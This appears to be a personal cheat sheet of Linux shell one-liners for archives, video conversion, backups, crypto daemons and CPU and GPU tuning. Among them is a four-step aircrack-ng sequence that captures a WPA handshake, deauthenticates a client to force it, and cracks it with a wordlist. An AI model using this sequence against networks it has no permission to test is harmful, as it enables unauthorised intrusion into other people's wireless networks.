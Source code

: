 unrar all archives in current folder  
`$ for f in *.rar;do unrar e -o+ $f;done`  

show folder size
`$ du -h --max-depth=1`  

convert movie to xbox360 format
`$ ffmpeg -i "file.mkv" -vcodec libx264 -acodec ac3 -ab 160k "file.mp4"`  

batch convert above
```$ for i in *.mkv;   do name=`echo $i | cut -d'.' -f1`;   echo $name;   ffmpeg -i "$i" "${name}.mp4" -vcodec libx264 -acodec ac3 -ab 160k; done ```

monero daemon
`$ monerod --data-dir /mnt/cloud/monero`  

import gpg key for aur packages
`$ gpg --receive-key keyid`  

ethereum blockchain sync
`$ geth --syncmode "fast"`  

show external ip
`$ curl ifconfig.me`  

weather forecast
`$ curl wttr.in/Wilhelmshaven`  

set gtk cursor global value for browsers $ gsettings set org.gnome.desktop.interface cursor-theme Adwaita  
calculator $ bc  
backup through ssh $ rsync -avz /source/folder/ user@remoteadress:/remote_folder  
unrar all archives in folder (autoverwrite enabled)  $ find . -name "*.rar" -exec unrar x -o+ {} \;  
show cpu frequency $ cat /proc/cpuinfo | grep "MHz" & watch -n1 "cat /proc/cpuinfo | grep \"^[c]pu MHz\""  
force cpu governor $ sudo cpupower frequency-set -g powersave or performance  
list available governors $ cat /sys/devices/system/cpu/cpu0/cpufreq/scaling_available_governors  
show network usage $ iftop  
create playlist $ ls -1 *.mp4 > playlist.m3u  
cut characters playlist example $ cut -c 50- playlist.m3u > newplaylist.m3u  
batch rename delete example $ for file in *text* ; do mv "$file" "`echo $file | sed 's/\text//'`" ; done  
output orphaned packages to file & run removal  $ sudo pacman -Qqdt > pkglist.txt & sudo pacman -R - < pkglist.txt  
hack wpa $ airmon-ng start wlp2s0f0u4 & airodump wlp2s0f0u4mon  
hack wpa target network $ airodump-ng -c 10 --bssid 00:14:BF:E0:E8:D5 -w /root/aircrack/ wlp2s0f0u4mon  
force handshake $ aireplay-ng –0 2 –a [router bssid] –c [client bssid] wlp2s0f0u4mon  
crack with wordlist $ aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/aircrack/*.cap  
get nvme temperature $ sudo nvme smart-log /dev/nvme0 | grep temperature  
delete all but given extension $ find . -type f ! -name '*.txt' -delete  
amd vega current values $ watch -n 0.5 sudo cat /sys/kernel/debug/dri/0/amdgpu_pm_info  
disable vsync environment variable $ vblank_mode=0  
current vega voltage values $ sudo cat /sys/class/drm/card0/device/pp_od_clk_voltage  
force high dpm on graphics card $ echo high > /sys/class/drm/card0/device/power_dpm_force_performance_level  
